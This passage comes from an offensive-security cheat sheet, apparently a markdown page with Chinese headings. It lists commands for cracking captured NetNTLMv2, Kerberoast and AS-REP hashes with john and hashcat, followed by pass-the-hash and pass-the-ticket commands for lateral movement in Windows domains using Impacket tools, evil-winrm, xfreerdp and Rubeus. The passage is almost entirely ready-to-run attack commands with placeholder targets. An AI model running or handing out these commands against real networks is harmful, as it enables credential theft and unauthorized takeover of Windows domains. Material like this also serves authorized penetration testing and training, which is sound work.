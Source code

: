 ~~~
john --format=netntlmv2 hash.txt

hashcat -m 5600 -a 0 hash.txt rockyou.txt
~~~

#### 5.Kerberos 5 TGS

~~~
john spn.txt --format=krb5tgs --wordlist=rockyou.txt

hashcat -m 13100 -a 0 spn.txt rockyou.txt
~~~

#### 6.Kerberos ASREP

~~~
hashcat -m 18200 -a 0 AS-REP_roast-hashes rockyou.txt
~~~



# 9.横向移动



## 1.PTH

~~~ABAP
psexec.py -hashes ":<hash>" <user>@<ip>

wmiexec.py -hashes ":<hash>" <user>@<ip>

atexec.py -hashes ":<hash>" <user>@<ip> "command"

evil-winrm -i <ip>/<domain> -u <user> -H <hash>

xfreerdp /u:<user> /d:<domain> /pth:<hash> /v:<ip>
~~~



## 2.PTK

~~~ABAP
python getTGT.py <domain>/<user> -hashes :<hashes>
export KRB5CCNAME=/root/impacket-examples/domain_ticket.ccache
python psexec.py <domain>/<user>@<ip> -k -no-pass

Rubeus asktgt /user:victim /rc4:<rc4value>
Rubeus ptt /ticket:<ticket>
Rubeus createnetonly /program:C:\Windows\System32\[cmd.exe||upnpcont.exe]
Rubeus ptt /luid:0xdeadbeef /ticket:<ticket>
~~~

